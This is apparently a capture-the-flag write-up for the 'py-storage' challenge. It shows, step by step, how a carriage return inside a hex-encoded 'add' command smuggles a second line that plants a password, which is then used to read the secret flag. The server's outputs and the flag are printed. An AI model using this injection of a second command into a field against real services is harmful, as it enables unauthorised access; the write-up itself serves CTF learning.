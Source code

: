 1. Connect to the server

```shell
> nc py-storage.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
```

2. In Python interpreter, get the hex string of the adding command with "\r" line separator and send it to the server

```python
>>> bytes.hex('add abc 123\rsecret_password:pass1234'.encode())
'61646420616263203132330d7365637265745f70617373776f72643a7061737331323334'
```

```shell
61646420616263203132330d7365637265745f70617373776f72643a7061737331323334
6f6b3a20616464
```

```python
>>> bytes.fromhex('6f6b3a20616464')
b'ok: add'
```

3. Get the flag by using the inserted password

```python
>>> bytes.hex('auth pass1234 get secret_flag'.encode())
'6175746820706173733132333420676574207365637265745f666c6167'
```

```shell
6175746820706173733132333420676574207365637265745f666c6167
6f6b3a206765743a205b274354467b554e497633727361315f6e65574c696e655f31734e545f53404665213f7d275d
```

```python
>>> bytes.fromhex('6f6b3a206765743a205b274354467b554e497633727361315f6e65574c696e655f31734e545f53404665213f7d275d')
b"ok: get: ['CTF{UNIv3rsa1_neWLine_1sNT_S@Fe!?}']"
```
